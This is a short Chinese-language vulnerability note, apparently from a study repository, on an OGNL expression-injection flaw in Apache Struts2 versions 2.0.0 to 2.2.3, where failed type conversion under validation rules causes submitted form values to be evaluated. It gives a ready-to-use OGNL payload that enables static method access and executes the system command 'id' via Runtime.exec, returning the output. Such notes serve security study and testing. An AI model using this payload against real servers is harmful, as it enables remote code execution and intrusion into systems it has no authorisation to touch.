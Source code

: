 # 知识点
### 漏洞原理
> **当配置了验证规则 <ActionName>-validation.xml 时，若类型验证转换出错，后端默认会将用户提交的表单值通过字符串拼接，然后执行一次 OGNL 表达式解析并返回**
> **影响版本：Struts2 2.0.0 - Struts2 2.2.3**

# 思路
```plsql
' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())) + '
```
